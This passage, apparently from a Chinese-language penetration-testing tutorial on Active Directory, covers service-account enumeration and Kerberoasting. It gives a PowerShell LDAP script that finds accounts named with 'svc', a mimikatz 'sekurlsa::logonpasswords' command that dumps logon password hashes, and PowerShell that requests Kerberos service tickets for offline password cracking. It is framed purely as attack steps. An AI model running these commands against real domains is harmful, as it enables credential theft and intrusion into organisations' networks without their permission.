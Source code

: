 

但是一些服务不会生成服务账户，这些账户不通过SPN与Kerberos交互，并且没有SPN值，但是大多数企业都有统一的命名规范(例如:SVC)，下列脚本将会查找包含SVC的用户名


```powershell
#Build LDAP Filter to look for users with service account naming conventions
$ldapFilter = "(&(objectclass=Person)(cn=*svc*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Adds list of properties to search for
$objProperties = "name"
Foreach ($i in $objProperties){$search.PropertiesToLoad.Add($i)}
#Execute Search
$results = $search.FindAll()
#Display values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    Write-Host ""    
}
```

> 如果拥有管理员权限，则可以对服务账户进行枚举，Invoke-Kerberoast.ps1脚本、Kerberoast工具包中的GetUserSPNs脚本、PowerSploit的GET_NetUser命令等



拥有管理员权限利用mimikatz转存账户密码hash

```powershell
Mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit exit
```



2. 使用kerberoasting对服务账户密码进行破解

> [这篇文章](https://attack.stealthbits.com/cracking-kerberos-tgs-tickets-using-kerberoasting)中详细介绍了Kerberoasting的攻击原理，简单来说通过扫描获取到拥有SPN值的用户账户，再使用SPN值从AD请求服务票证，再将服务票证从内存中提取到本地文件，再爆破攻击密码
> 此外这是一些关于服务默认SPN的[列表](https://adsecurity.org/?page_id=183)
> 爆破密码并不是无脑字典，可以根据前期信息收集获得的密码规则进行生成



请求服务账户SPN的服务票证

> 需要了解System.IdentityModel模块在低版本系统中是没有的，结解决方式请参照[这里](https://www.sqlservercentral.com/blogs/powershell-add-type-–-where’s-that-assembly)

```powershell
Add-Type –AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList '<SPN>'
```
